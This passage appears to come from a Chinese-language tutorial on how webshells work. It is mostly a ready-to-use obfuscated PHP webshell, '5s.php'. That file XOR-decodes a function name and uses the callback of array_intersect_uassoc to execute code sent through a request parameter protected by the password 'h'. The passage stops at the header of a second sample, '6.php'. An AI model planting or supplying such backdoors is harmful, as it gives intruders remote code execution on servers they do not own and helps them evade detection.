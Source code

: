 ![](webshell原理.assets/4.png)

#### 5s.php

```php
# php5>=php5.3.0 php7 php7.1+不可用
# password:h
```

```php
<?php
	$password="h";
	${"h"}=substr(__FILE__,-5,-4)."class";
	$f=$h^hex2bin("12101f040107");
	array_intersect_uassoc(array($_REQUEST[$password]=>" "),array(1),$f);
?>
```

#### 6.php

```php
# PHP5>=5.3.0,PHP7，php7.1+ 不可用
# password:h
# Referer:http://www.target.com/ass.php
```
